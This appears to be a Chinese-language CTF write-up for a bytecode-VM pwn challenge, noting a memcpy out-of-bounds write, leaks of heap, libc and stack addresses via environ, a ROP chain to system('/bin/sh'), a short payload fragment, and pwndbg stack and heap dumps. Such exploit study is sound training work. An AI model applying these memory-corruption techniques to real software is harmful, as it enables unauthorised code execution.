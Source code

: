 # 漏洞点
memcpy越界写，造成任意地址读写，泄漏heap，libc，stack
然后改写ret到`pop rdi，"/bin/sh", system`,

# 知识点
## scanf("%hd", &var)
中的 %hd 是格式说明符，意思是：读取一个 short 类型的有符号整数（16位）并存储到对应变量中。

## environ
在libc中有一个environ指向stack地址，通过泄漏environ的值和offset可以算出stack基地址
![](https://r2.20161023.xyz/pic/20250611134108238.png)

## 栈地址怎么泄漏
改state->rsp = environ-8, 然后pop就可以了
![](https://r2.20161023.xyz/pic/20250611193404646.png)

- 改rsp的是要要注意，rsp<=rbp 
- 内存值rip, rsb, rbp

## one_gadget
测试发现不可行，改为system("/bin/sh")

## 怎么退出呢？
改写rip为很大，> buf+len, 此解中改为
```
payload += mov_reg(2, 0x7FFFFFFFFFFF)
payload += push_reg(2)  # rbp
payload += push_num(0x61)
```

# debug
## v56
```
v56[0]：指令指针（指向当前执行的字节码位置）
v56[1]和v56[2]：栈指针和栈顶
v56[3]到v56[10]：8个通用寄存器（R0-R7）
```

## buf
```
0x000 - 0x100   指令区域 
0x100 - 0x8F8   栈区域
```

## stack
```
pwndbg> stack
00:0000│ rsp 0x7ffc3d191610 ◂— 0
01:0008│-038 0x7ffc3d191618 ◂— 0x1a00010000
02:0010│-030 0x7ffc3d191620 ◂— 0
03:0018│-028 0x7ffc3d191628 —▸ 0x559be9b052a0 ◂— 0x1f0435
04:0020│-020 0x7ffc3d191630 —▸ 0x559be9b05bb0 —▸ 0x559be9b052b4 ◂— 0x131ff010436
05:0028│-018 0x7ffc3d191638 ◂— 0
06:0030│-010 0x7ffc3d191640 ◂— 0
07:0038│-008 0x7ffc3d191648 ◂— 0xde8545e2aed4d00
08:0040│ rbp 0x7ffc3d191650 —▸ 0x7ffc3d1916f0 —▸ 0x7ffc3d191750 ◂— 0
09:0048│+008 0x7ffc3d191658 —▸ 0x7f867763c6b5 ◂— mov edi, eax
0a:0050│+010 0x7ffc3d191660 —▸ 0x7f8677807000 ◂— 0x3010102464c457f
0b:0058│+018 0x7ffc3d191668 —▸ 0x7ffc3d191778 —▸ 0x7ffc3d192589 ◂— './vm_chall'
0c:0060│+020 0x7ffc3d191670 ◂— 0x13d1916b0
0d:0068│+028 0x7ffc3d191678 —▸ 0x559be92d7371 (main) ◂— push rbp
```


## heap
```
Allocated chunk | PREV_INUSE
Addr: 0x557ef42a9000
Size: 0x290 (with flag bits: 0x291)

Allocated chunk | PREV_INUSE
Addr: 0x557ef42a9290
Size: 0x910 (with flag bits: 0x911)

Allocated chunk | PREV_INUSE
Addr: 0x557ef42a9ba0
Size: 0x60 (with flag bits: 0x61)

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x557ef42a9c00
Size: 0x910 (with flag bits: 0x911)
fd: 0x7fee1aa3bb20
bk: 0x7fee1aa3bb20

Free chunk (tcachebins)
Addr: 0x557ef42aa510
Size: 0x60 (with flag bits: 0x60)
fd: 0x557ef42aa

Top chunk | PREV_INUSE
Addr: 0x557ef42aa570
Size: 0x1fa90 (with flag bits: 0x1fa91)
```
